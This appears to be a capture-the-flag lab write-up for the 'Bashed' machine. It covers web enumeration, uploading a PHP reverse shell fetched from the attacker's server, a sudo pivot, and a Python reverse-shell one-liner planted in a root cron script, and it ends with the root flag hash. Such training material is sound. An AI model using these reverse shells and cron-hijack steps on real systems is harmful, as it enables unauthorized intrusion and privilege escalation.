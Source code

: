 ```yaml
---
cover: ../../.gitbook/assets/Bashed.png
coverY: 177.62133333333333
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bashed

Add IP address to local DNS

```sh
[attacker] echo '10.129.235.166 bashed.htb'|sudo tee -a /etc/hosts
```

Nmap scan

```sh
[user@attacker] nmap bashed.htb
```

Open port 80/TCP with HTTP service.\
WFuzz web enumeration

```sh
[user@attacker] wfuzz -u http://bashed.htb/FUZZ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404
```

Available paths :

* http://bashed.htb/css
* http://bashed.htb/dev
* http://bashed.htb/images
* http://bashed.htb/js
* http://bashed.htb/php
* http://bashed.htb/uploads

I find a web shell on http://bashed.htb/php/dev/phpbash.php\
Import php reverse shell file.

```sh
[user@attacker] cp /usr/share/webshells/php/php-reverse-shell.php payload.php
```

Edit the `payload.php` with attacker host and netcat post listener.

<figure><img src="../../.gitbook/assets/bashed-php-reverse-shell-script.png" alt=""><figcaption></figcaption></figure>

On the attacker, start a Python web server

```sh
[user@attacker] python3 -m http.server
```

On the target, download the file `payload.php`

```sh
[www-data@target] wget -O payload.php http://10.10.14.81:8000/payload.php
```

From the attacker, start the netcat listener

```sh
[user@attacker] nc -lnvp 1234
```

Then go to the website and execute http://bashed.htb/uploads/payload.php\
Got the reverse shell on target.\
List sudo privileges.

```sh
[www-data@target] sudo -l
```

`www-data` can run all sudo command as `scriptmanager`

```sh
[www-data@target] sudo -u scriptmanager '/bin/bash'
[scriptmanager@target] cat /home/arrexel/user.txt
```

The file `test.txt` has a cron because somethin is updating its timestamp every minute.

<figure><img src="../../.gitbook/assets/bashed-cron-52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bashed-cron-53.png" alt=""><figcaption></figcaption></figure>

Code inside of the file `test.py`

```py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Text inside of the file `test.txt`

```
testing 123!
```

Thus, only root can write in `test.txt` and it has root cron which executes `test.py` every minute.\
Add a new python file in the same directory `/scripts/write.py` which contains the following code

```sh
[scriptmanager@target] echo 'import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.81", 1235))
[os.dup2(s.fileno(),fd) for fd in(0,1,2)]
pty.spawn("sh")'|tee /scripts/write.py
```

Open the netcat listener

```sh
[user@attacker] nc -lnvp 1235
```

After 1 minut, it opens a root shell

```sh
[root@target] cat /root/root.txt	# 204827fc65f65b3c967b7c38298d6382
```
